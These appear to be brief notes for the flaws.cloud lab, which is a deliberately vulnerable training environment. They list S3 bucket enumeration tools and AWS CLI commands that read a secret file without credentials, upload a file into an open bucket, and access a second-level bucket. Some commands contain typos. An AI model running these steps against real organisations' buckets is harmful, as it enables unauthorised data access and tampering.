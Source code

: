 
1. S3 buckets enumeration
	1. lazys3
		1. https://github.com/nahamsec/lazys3
		2. ruby lazys3.rb < company >
	2. Sudo apt install cloud-enum
		1. cloud_enum -k flaws.cloud --disable-azure --disable-gcp
	3. https://github.com/AlecBlance/S3BucketList
2. Unauthenticated S3 buckets exploiting
	1. Sudo apt install update
	2. Sudo ap-get install awscli
	3. aws s3 ls s3://flaws.cloud/ --no-sign-request
	4. aws s3 cp s3://flaws.cloud/secret-dd02c7c.html . --no-sign-request
	5. aws s3 cp ./index.html s3://flaws.cloud --no-sign-request
3. Authenticated S3 buckets exploiting
	1. new user with programmatic access
	2. aws configure --profile m
	3. aws s3 --profile m ls s3://level2 c7b318a23ea01f738f7f2f83b01aaad7.flaws.cloud
	4. download secret file
